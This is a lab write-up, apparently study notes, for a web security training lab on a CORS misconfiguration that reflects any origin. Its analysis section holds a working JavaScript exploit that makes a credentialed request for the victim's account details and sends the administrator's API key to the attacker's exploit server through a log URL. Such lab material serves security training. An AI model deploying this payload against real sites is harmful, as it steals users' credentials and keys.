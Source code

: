 
## Tools
- https://github.com/s0md3v/Corsy
- https://portswigger.net/bappstore/420a28400bad4c9d85052f8d66d3bbd8


# 1. Basic origin reflection
This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key. 
You can log in to your own account using the following credentials: `wiener:peter`

**Analysis:**
1. Review the history and observe that your key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
2. Send the request to Burp Repeater, and resubmit it with the added header:
    `Origin: https://example.com` and observe that the origin is reflected in the `Access-Control-Allow-Origin` header.
3. In the browser, go to the exploit server and enter the following HTML, replacing `YOUR-LAB-ID` (which is reflected in host) with your unique lab URL:
    ```javascript
    <script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
	</script>
    ```
4. Click **View exploit**. Observe that the exploit works - you have landed on the log page and your API key is in the URL. Go back to the exploit server and click **Deliver exploit to victim**. Click **Access log**, retrieve and submit the victim's API key to complete the lab.

**Workflow:**
1. Review the history and observe that your key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
	![](Pasted%20image%2020250304113109.png)

2. Send the request to Burp Repeater, and resubmit it with the added header:
`Origin: https://example.com` and observe that the origin is reflected in the `Access-Control-Allow-Origin` header.
	![](Pasted%20image%2020250304113230.png)
	